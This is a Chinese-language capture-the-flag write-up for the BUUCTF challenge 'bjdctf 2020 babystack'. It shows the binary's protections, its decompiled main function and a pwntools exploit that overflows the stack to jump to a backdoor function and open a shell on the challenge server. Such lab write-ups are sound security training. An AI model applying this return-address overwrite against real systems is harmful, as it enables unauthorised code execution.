 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babystack
date: 2022-3-21 14:45:03
permalink: /pages/2e1547494524d185
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bjdctf 2020 babystack

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babystack/bjdctf_2020_babystack'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-10h]
  size_t nbytes; // [rsp+Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  puts("[+]What's u name?");
  read(0, &buf, (unsigned int)nbytes);
  return 0;
}
```

后门函数如下

![bjdctf_2020_babystack_2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/bjdctf_2020_babystack_2.png)

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - No PIE
   - 程序开启了NX保护
   - 存在后门函数
1. 思路：
   - 第一次输入的数据是第二次可读入数据的长度，可由此实现栈溢出，将返回地址覆盖为后门函数地址即可

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babystack/bjdctf_2020_babystack'
io = remote('node4.buuoj.cn', 26068)
# io = process(pwnfile)
elf = ELF(pwnfile)
backdoor_addr = elf.symbols['backdoor']
offset = 0x10+8
io.sendlineafter('your name:', str(offset+8))
payload = flat(['a'*offset, backdoor_addr])
io.sendlineafter('u name?', payload)
io.interactive()
```